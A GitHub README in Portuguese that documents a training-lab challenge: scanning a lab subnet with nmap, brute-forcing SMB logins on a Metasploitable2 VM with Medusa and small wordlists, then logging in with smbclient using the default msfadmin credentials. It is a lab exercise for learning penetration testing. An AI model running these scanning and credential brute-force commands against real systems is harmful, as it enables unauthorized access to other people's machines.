




# Santander-Challenge
Desafio invasão ao metasploitable2 com o kali linux utilizando o medusa


## Reconhecimento 

Utilizei o nmap para escanear a rede, buscar serviços ativos e verificar portas abertas.


```bash
nmap -sV -T4 172.16.0.0/24
```




Decidi tentar ganhar acesso por SMB


```bash
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```


## Scan 


172.16.0.128
Para fazer o scan de contas e senhas vou utilizar uma já existente no kali linux


```bash
echo -e "user\nmsfadmin\nservice" > users.txt
echo -e "passwoerd\m123456\nWelcome123\nmsfadmin" > password.txt
```





Com essas wordlists em mãos, utililzarei o medusa para tentar achar um usuário com a senha comprometida 


```bash
medusa -h 172.16.0.128 -U users.txt -P password.txt -M smbnt -t 2 -T 50
```





## Acesso 


Com as credenciais tento o acesso ao servidor SMB


```bash
smbclient -L //172.16.0.128 -U msfadmin
```

> [!TIP]
> Password : msfadmin
>





Com isso finalizo o teste sem prejudicar a máquina para continuar mais testes.
